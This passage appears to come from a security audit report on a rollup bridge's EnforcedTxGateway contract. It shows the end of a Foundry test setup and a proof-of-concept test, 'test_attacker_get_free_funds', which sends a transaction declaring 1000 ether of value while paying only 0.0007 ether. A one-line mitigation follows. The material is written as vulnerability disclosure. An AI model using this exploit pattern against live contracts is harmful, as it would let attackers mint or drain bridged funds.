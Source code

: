 ```solidity
                L1Staking.initialize,
                (
                    address(rollupProxy),
                    STAKING_VALUE,
                    CHALLENGE_DEPOSIT,
                    LOCK_BLOCKS,
                    rewardPercentage,
                    defaultGasLimitAdd,
                    defaultGasLimitRemove
                )
            )
        );

        l1CrossDomainMessenger = L1CrossDomainMessenger(payable(address(l1CrossDomainMessengerProxy)));
        rollup = Rollup(payable(address(rollupProxy)));

        l1MessageQueueWithGasPriceOracle = L1MessageQueueWithGasPriceOracle(
            address(l1MessageQueueWithGasPriceOracleProxy)
        );
        l1Staking = L1Staking(address(l1StakingProxy));

        enforcedTxGatewayImpl = new EnforcedTxGateway();

        ITransparentUpgradeableProxy(address(enforcedTxGatewayProxy)).upgradeToAndCall(
            address(enforcedTxGatewayImpl),
            abi.encodeCall(
                EnforcedTxGateway.initialize,
                (
                    address(l1MessageQueueWithGasPriceOracle), // gasLimit
                    l1FeeVault // whitelistChecker
                )
            )
        );

        enforcedTxGateway = EnforcedTxGateway(address(enforcedTxGatewayProxy));

        attacker = makeAddr("attacker");
        target = makeAddr("target");

      
        deal(attacker, 2 ether);
    }

    function test_attacker_get_free_funds() public {
        uint256 value = 1000e18;
        uint256 gaslimit = 1e6;
        bytes memory data = abi.encode("");
        vm.startPrank(attacker);
        enforcedTxGateway.sendTransaction{value: 0.0007 ether}(target, value, gaslimit, data);
    }
}

```

### Mitigation

**Verify that `msg.value` is greater than the `_value` parameter.**